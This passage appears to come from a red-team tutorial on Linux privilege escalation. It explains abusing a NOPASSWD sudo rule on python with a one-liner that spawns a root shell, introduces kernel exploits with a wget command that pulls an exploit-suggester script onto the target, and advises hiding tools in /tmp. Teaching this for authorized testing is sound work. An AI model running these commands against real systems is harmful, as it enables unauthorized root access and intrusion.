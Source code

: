 The script will begin performing checks and will output the results in real time, after which, we can analyze the results in order to identify vulnerabilities and misconfigurations that we can utilize to elevate our privileges.

As shown in the following screenshot, we are able to identify that the NOPASSWD SUDO permission has been assigned to the /usr/bin/python binary for the user “steven”.

![](../../assets/img/redteam/priv7.png)

The NOPASSWD SUDO permission allows a user to execute a binary or run a command with “root” privileges without providing the “root” password.

This permission is frequently implemented by system administrators to provide unprivileged users with the ability to run specific commands with “root” privileges as opposed to providing user accounts with administrative privileges.

In this case, we can leverage this misconfiguration to obtain root privileges by spawning a privileged bash session through the Python IDLE/Interpreter. This can be done by running the following command:

```bash
sudo python -c ‘import os; os.system(“/bin/bash”)’
```

As shown in the following screenshot, the preceding command will spawn a new bash session with “root” privileges.

![](../../assets/img/redteam/priv8.png)

We have successfully been able to elevate our privileges to the highest level locally by exploiting a misconfigured SUDO permission.

Kernel Exploits
--

We will now explore the final technique for privilege escalation, which involves using kernel exploits to gain elevated privileges on the target system. While this can be performed automatically using exploitation frameworks such as Metasploit, we will focus on the manual process of identifying, compiling, and executing kernel exploits on the target.

It is important to note that kernel exploits are not the preferred method for privilege escalation as they can potentially cause kernel panics or data loss. Additionally, they do not guarantee successful privilege escalation.

To begin the process, we must first identify potential kernel vulnerabilities on the target server. This can be automated using the Linux-Exploit-Suggester script, a Linux privilege escalation auditing tool that scans for vulnerabilities. More information about the script can be found at: [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester).

To use the script, we must first transfer it to the target system. This can be accomplished by running the following command on the target:

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

Note: It is always recommended to save your scripts and tools into a folder that is not frequently accessed on the target system, the preferred choice being the /tmp directory.
